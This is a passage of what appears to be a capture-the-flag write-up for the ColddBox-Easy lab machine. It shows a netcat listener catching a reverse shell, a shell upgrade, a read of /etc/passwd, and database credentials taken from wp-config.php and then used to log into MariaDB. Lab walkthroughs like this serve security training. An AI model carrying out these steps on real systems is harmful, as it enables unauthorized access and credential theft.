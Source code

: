 Visiting the site main page

```bash
curl http://10.10.204.183
```

We get a shell on the victim server

```bash
$ nc -nvlp 1234
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::1234
Ncat: Listening on 0.0.0.0:1234
Ncat: Connection from 10.10.204.183.
Ncat: Connection from 10.10.204.183:57426.
Linux ColddBox-Easy 4.4.0-186-generic #216-Ubuntu SMP Wed Jul 1 05:34:05 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 23:23:23 up  1:30,  0 users,  load average: 0.00, 0.65, 3.12
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$  
```

### Database access

First of all, let's get a stable shell

```bash
$ python3 -c "import pty;pty.spawn('/bin/bash')"; export TERM=xterm
```

Looks like we have some users on the server

```bash
www-data@ColddBox-Easy:/$ cat /etc/passwd | grep 'bin/bash'

root:x:0:0:root:/root:/bin/bash
c0ldd:x:1000:1000:c0ldd,,,:/home/c0ldd:/bin/bash
```

Looking into the `wp-config.php` we can get the access to the database

```bash
define('DB_NAME', 'colddbox');
define('DB_USER', 'c0ldd');
define('DB_PASSWORD', 'cybersecurity');
```

Let's go get some content from the database 

```bash
www-data@ColddBox-Easy:/var/www/html$ mysql -u c0ldd -pcybersecurity

Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 41847
Server version: 10.0.38-MariaDB-0ubuntu0.16.04.1 Ubuntu 16.04

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]> show databases;
show databases;
+--------------------+
| Database           |
+--------------------+
| colddbox           |
| information_schema |
+--------------------+
```